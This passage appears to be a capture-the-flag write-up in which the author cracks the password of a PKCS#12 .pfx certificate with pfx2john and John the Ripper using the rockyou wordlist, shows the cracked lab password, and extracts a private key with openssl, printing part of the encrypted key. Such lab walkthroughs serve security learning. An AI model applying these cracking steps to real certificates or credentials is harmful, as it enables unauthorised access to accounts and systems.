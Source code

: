 After that we're able to unzip the file which leaves us with a **.pfx file**:

```bash
-rwxr-xr-x 1 kali kali 2555 Oct 25 10:21 legacyy_dev_auth.pfx
```

Reading up on pfx files tells me it's a certificate in **PKCS#12 format**. It can contain multiple objects inside the archive including a certificate, and public/private keys. It's also password protected.

It also looks like we can use **John the Ripper** here too. I had no idea there was a `pfx2john` command, but there is. I run:

`pfx2john legacyy_dev_auth.pfx > pfxhash`

`john pfxhash --wordlist=rockyou.txt`

And it cracks very quickly:

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:33 DONE (2022-04-13 09:57) 0.02982g/s 96383p/s 96383c/s 96383C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I then look up how to use pfx files and using the **openssl command** you can extract files from the archive. I run the following and then enter the password we just cracked, and another password of my choosing for the last two:

`openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key`

```bash
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

With that we have a **legacyy.key file** that has a private key in it:

```bash
Bag Attributes
    Microsoft Local Key set: <No Values>
    localKeyID: 01 00 00 00 
    friendlyName: te-4a534157-c8f1-4724-8db6-ed12f25c2a9b
    Microsoft CSP Name: Microsoft Software Key Storage Provider
Key Attributes
    X509v3 Key Usage: 90 
-----BEGIN ENCRYPTED PRIVATE KEY-----
MIIFHDBOBgkqhkiG9w0BBQ0wQTApBgkqhkiG9w0BBQwwHAQIjfRt000G2iACAggA
MAwGCCqGSIb3DQIJBQAwFAYIKoZIhvcNAwcECJ5GxO8hCJ6kBIIEyC6tx02Jqvu8

--- SNIP ---
```
